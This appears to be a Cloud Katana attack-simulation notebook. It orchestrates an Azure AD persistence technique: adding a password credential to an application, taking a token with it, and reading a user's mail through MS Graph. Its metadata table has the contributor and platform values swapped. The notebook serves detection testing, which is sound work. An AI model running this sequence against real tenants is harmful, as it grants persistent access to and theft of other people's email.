 ```yaml
---
jupyter:
  jupytext:
    text_representation:
      extension: .md
      format_name: markdown
      format_version: '1.3'
      jupytext_version: 1.14.7
  kernelspec:
    language: python
---
```


# Add New Password Credential to Azure AD Application and Read Mail


## Metadata



|                   |    |
|:------------------|:---|
| contributors      | ['Azure'] |
| platform          | Roberto Rodriguez @Cyb3rWard0g |
| creation date     | 2022-04-28 |
| modification date | 2022-04-28 |
| Tactics           | [TA0003](https://attack.mitre.org/tactics/TA0003) |
| Techniques        | [T1098.001](https://attack.mitre.org/techniques/T1098/001) |


## Description
A campaign to simulate a threat actor adding password credentials to an Azure AD application, getting an access token with the new credentials and reading mail from a specific user via MS Graph with the security context of the Azure AD application.


## Get OAuth Access Token

```python
from msal import PublicClientApplication
import requests
import time

function_app_url = "https://FUNCTION_APP_NAME.azurewebsites.net"

tenant_id = "TENANT_ID"
public_client_app_id = "KATANA_CLIENT_APP_ID"
server_app_id_uri = "api://" + tenant_id + "/cloudkatana"
scope = server_app_id_uri + "/user_impersonation"

app = PublicClientApplication(
    public_client_app_id,
    authority="https://login.microsoftonline.com/" + tenant_id
)
result = app.acquire_token_interactive(scopes=[scope])
bearer_token = result['access_token']
```

## Set Azure Function Orchestrator

```python
endpoint = function_app_url + "/api/orchestrators/Orchestrator"
```

## Load Campaign

```python
data = {"id": "attackscenario-81b67a16-5218-41e6-8c6d-1fc6a10b757a", "name": "Add New Password Credential to Azure AD Application and Read Mail", "metadata": {"creationDate": "2022-04-28", "modificationDate": "2022-04-28", "platform": ["Azure"], "description": "A campaign to simulate a threat actor adding password credentials to an Azure AD application, getting an access token with the new credentials and reading mail from a specific user via MS Graph with the security context of the Azure AD application.", "contributors": ["Roberto Rodriguez @Cyb3rWard0g"], "mitreAttack": [{"technique": "T1098.001", "tactics": ["TA0003"]}]}, "steps": [{"number": 1, "name": "AddPasswordToAADApp", "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.1", "function": "New-CKAzADAppPassword"}, "parameters": {"appObjectId": {"type": "string", "defaultValue": "test"}}}, "wait": 30}, {"number": 2, "name": "GetAccessToken", "dependsOn": [1], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.1", "function": "Get-CKAccessToken"}, "parameters": {"ClientId": {"type": "string", "defaultValue": "test"}, "GrantType": {"type": "string", "defaultValue": "client_credentials"}, "AppSecret": {"type": "string", "defaultValue": "reference(1).secretText"}}}}, {"number": 3, "name": "GetMailboxMessages", "dependsOn": [2], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.1", "function": "Get-CKMailboxMessages"}, "parameters": {"accessToken": {"type": "string", "defaultValue": "reference(2).access_token"}, "userPrincipalName": {"type": "string", "defaultValue": "test"}}}}], "file_name": "attackscenario-81b67a16-5218-41e6-8c6d-1fc6a10b757a"}
```

### Send HTTP Request

```python
http_headers = {'Authorization': 'Bearer ' + bearer_token, 'Accept': 'application/json','Content-Type': 'application/json'}
results = requests.get(endpoint, json=data, headers=http_headers, stream=False).json()

time.sleep(30)
```

### Explore Output

```python
query_status = requests.get(results['statusQueryGetUri'], headers=http_headers, stream=False).json()
query_results = query_status['output']
query_results
```
